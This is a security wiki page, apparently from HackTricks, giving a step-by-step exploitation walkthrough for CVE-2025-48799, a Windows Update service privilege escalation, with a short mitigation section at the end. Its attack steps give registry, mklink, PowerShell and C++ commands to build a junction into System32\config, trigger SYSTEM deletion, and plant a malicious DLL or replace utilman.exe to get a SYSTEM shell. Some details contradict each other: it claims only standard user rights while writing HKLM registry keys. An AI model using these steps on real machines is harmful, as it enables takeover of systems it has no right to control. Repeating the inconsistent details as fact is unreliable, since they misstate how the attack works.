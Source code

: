 # Storage Sense Symlink Abuse (Windows Update Service) (CVE-2025-48799)
{{#include /banners/hacktricks-training.md}}


{{#include ../../banners/hacktricks-training.md}}

## Overview

CVE-2025-48799 is a local elevation-of-privilege vulnerability in the Windows Update service (`wuauserv`) on Windows 10/11 systems with multiple physical drives. By abusing Storage Sense’s ability to redirect AppX/MSI staging and cleanup paths, an attacker can create NTFS directory junctions pointing to protected SYSTEM folders. Because the service deletes directories without validating reparse points, it follows the junction and recursively deletes critical system files under SYSTEM privileges, allowing the attacker to drop malicious payloads and achieve SYSTEM code execution.

## Prerequisites

- Windows 10/11 with **two or more** physical drives.
- Standard (non-administrative) user privileges.

## How It Works

1. **Storage Sense Redirection**
   - _UI method_: Launch `ms-settings:storagesense` → “Change where new content is saved” → select a secondary drive (e.g., `D:`).
   - _Registry method_:
     ```powershell
     # Redirect Apps folder
     reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" /v Apps /t REG_EXPAND_SZ /d "D:\WindowsApps" /f
     # Or set AppxInstallRoot directly
     reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\StorageSense" /v AppxInstallRoot /t REG_EXPAND_SZ /d "D:\WindowsApps" /f
     ```

2. **Create Malicious Junction**
   - Redirect `D:\WindowsApps\ExploitPkg` to a protected location (e.g., `C:\Windows\System32\config`):
     ```cmd
     mklink /J "D:\WindowsApps\ExploitPkg" "C:\Windows\System32\config"
     ```
   - Or via PowerShell:
     ```powershell
     New-Item -ItemType Junction -Path "D:\WindowsApps\ExploitPkg" -Target "C:\Windows\System32\config"
     ```
   - Or via Win32 API in C++:
     ```cpp
     CreateSymbolicLinkW(
         L"D:\\WindowsApps\\ExploitPkg",
         L"C:\\Windows\\System32\\config",
         SYMBOLIC_LINK_FLAG_DIRECTORY
     );
     ```

3. **Trigger AppX/MSI Deployment**
   - PowerShell:
     ```powershell
     Add-AppxPackage -Register "D:\WindowsApps\ExploitPkg\AppxManifest.xml"
     ```
   - Or using COM:
     ```cpp
     IAppxPackageManager->AddPackageAsync(
         L"D:\\WindowsApps\\ExploitPkg\\AppxManifest.xml",
         nullptr,
         nullptr,
         nullptr
     );
     ```

4. **Abuse Directory Deletion**
   - The Windows Update service calls:
     ```cpp
     RemoveDirectoryW(L"D:\WindowsApps\<PackageID>\");
     ```
   - It validates **files** with `GetFinalPathByHandle`, but **does not** check reparse points on **directories**. This causes deletion of `C:\Windows\System32\config` contents under SYSTEM privileges.

5. **Deploy Malicious Payload**
   - Race the cleanup using event objects (`WaitForSingleObject`) in C++ PoC.
   - Drop a malicious DLL (e.g., mimic `ntdll.dll`) or replace `utilman.exe` in the cleared folder.
   - Invoke a SYSTEM-loaded process (e.g., Ease of Access executable) to load the attacker-controlled payload.

6. **Gain SYSTEM**
   - A new `cmd.exe` or arbitrary code runs as `NT AUTHORITY\SYSTEM`.

## Proof of Concept

The PoC available in the repository automates:
- Storage Sense redirection via registry APIs (`RegSetValueEx`).
- Junction creation and cleanup triggering.
- Synchronization and race handling using Windows event objects.

Refer to `WinUpdateEoP/WinUpdateEoP.cpp` in the PoC repository for full source code.

## Mitigation & Remediation

- **Reset Storage Sense defaults** to the system drive.
- **Remove unauthorized junctions** under `D:\WindowsApps` or custom AppX roots.
- **Apply the Microsoft security update** released in July 2025.

## References

- [CVE-2025-48799 PoC Repository](https://github.com/Wh04m1001/CVE-2025-48799)
- [ZDI Blog: Abusing Arbitrary File Deletes to Escalate Privilege](https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-and-other-great-tricks)

{{#include ../../banners/hacktricks-training.md}}
